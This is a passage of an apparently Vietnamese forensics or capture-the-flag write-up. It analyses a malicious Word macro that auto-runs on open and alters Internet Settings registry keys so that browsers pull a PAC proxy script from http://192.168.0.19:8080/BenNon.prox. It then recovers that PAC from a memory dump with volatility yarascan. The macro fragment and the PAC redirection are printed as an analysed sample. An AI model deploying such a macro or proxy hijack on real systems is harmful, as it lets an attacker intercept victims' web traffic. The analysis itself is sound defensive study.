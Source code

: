 ```
    myWS.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\MigrateProxy", 1, "REG_DWORD"
    myWS.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyEnable", 0, "REG_DWORD"
    myWS.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\EnableAutodial", 0, "REG_DWORD"
    myWS.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\NoNetAutodial", 0, "REG_DWORD"
    Selection.TypeText Text:="Et bim !!!!"
    Selection.MoveLeft Unit:=wdWord, Count:=3, Extend:=wdExtend
    Selection.Font.Size = 72
    Selection.ParagraphFormat.Alignment = wdAlignParagraphCenter
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|IOC       |http://192.168.0.19:|URL                                          |
|          |8080/BenNon.prox    |                                             |
|IOC       |192.168.0.19        |IPv4 address                                 |
+----------+--------------------+---------------------------------------------+

WARNING  /home/minhtuan/.local/lib/python2.7/site-packages/msoffcrypto/method/ecma376_agile.py:8: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
```

Ta có thể thấy macro này có chứa hành vi chạy tự động nhờ AutoOpen, sau khi mở file docx này thì khi vào bất kì trang web nào cũng được gửi yêu cầu đến http://192.168.0.19:8080/BenNon.prox Nhận lại script JavaScript để quyết định có đi tiếp không tùy thuộc vào rule được cấu hình ở ```BenNon.prox``` có hàm chuẩn ```PAC``` file như này 

```javascript
function FindProxyForURL(url, host) {
  if (shExpMatch(host, "*youtube.com*")) return "PROXY 127.0.0.1:9999";
  return "DIRECT
```

Giờ thì ta quay lại file ```memory.dmp``` dùng plugin ```yarascan``` để tìm kiếm chuỗi kiểu hex, ta có thể tìm theo cấu trúc tên hàm ```FindProxyForURL``` hoặc ip ```192.168.0.19``` để biết trang web bị chặn

```
volatility -f memory.dmp --profile=Win7SP1x86_23418 yarascan -Y "FindProxyForURL"
Owner: Process svchost.exe Pid 1012
0x01e7000e  46 69 6e 64 50 72 6f 78 79 46 6f 72 55 52 4c 28   FindProxyForURL(
0x01e7001e  75 72 6c 2c 20 68 6f 73 74 29 0a 7b 0a 09 69 66   url,.host).{..if
0x01e7002e  20 28 73 68 45 78 70 4d 61 74 63 68 28 75 72 6c   .(shExpMatch(url
0x01e7003e  2c 22 2a 2e 61 73 68 6c 65 79 6d 61 64 69 73 6f   ,"*.ashleymadiso
0x01e7004e  6e 2e 63 6f 6d 2f 2a 22 29 29 0a 09 7b 0a 09 09   n.com/*"))..{...
0x01e7005e  72 65 74 75 72 6e 20 22 50 52 4f 58 59 20 31 39   return."PROXY.19
0x01e7006e  32 2e 31 36 38 2e 30 2e 31 39 3a 38 30 38 30 22   2.168.0.19:8080"
0x01e7007e  3b 0a 09 7d 0a 20 20 20 20 72 65 74 75 72 6e 20   ;..}.....return.
0x01e7008e  22 44 49 52 45 43 54 22 3b 0a 7d 00 00 00 00 00   "DIRECT";.}.....
0x01e7009e  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x01e700ae  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x01e700be  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
```